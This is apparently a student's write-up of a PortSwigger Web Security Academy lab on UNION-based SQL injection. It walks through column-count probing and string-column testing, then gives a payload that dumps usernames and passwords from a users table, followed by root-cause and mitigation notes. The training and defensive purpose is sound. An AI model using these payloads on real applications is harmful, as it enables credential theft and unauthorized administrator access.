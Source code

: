 # SQL Injection - UNION Attack: Retrieve Multiple Values in a Single Column

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: UNION Data Extraction (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Determining Column Count**

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 200 OK

**Step 2: Identifying String-Compatible Columns**

**Testing first column:**
```sql
' UNION SELECT 'a',NULL--
```
Response: HTTP/2 500 Internal Server Error

**Testing second column:**
```sql
' UNION SELECT NULL,'a'--
```
Response: HTTP/2 200 OK

**Step 3: Retrieving Data from Users Table**

```sql
' UNION SELECT NULL,username||'~'||password FROM users--
```

![burpsuite response](./misc-images/06-1.png)

This retrieved all usernames and passwords including the administrator.

Logged in as the administrator using the password retrieved.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Confidentiality | High – Sensitive user data exposed |
| Authentication | High – Credentials leaked |
| Information Disclosure | High – Database structure revealed |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#mitigation)

- Restrict database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated how to retrieve multiple values in a single column using UNION-based SQL injection. The string concatenation technique (`||`) proved highly effective in combining username and password data into a single column. Learned the importance of understanding database-specific syntax for successful data extraction.

---

## Notes

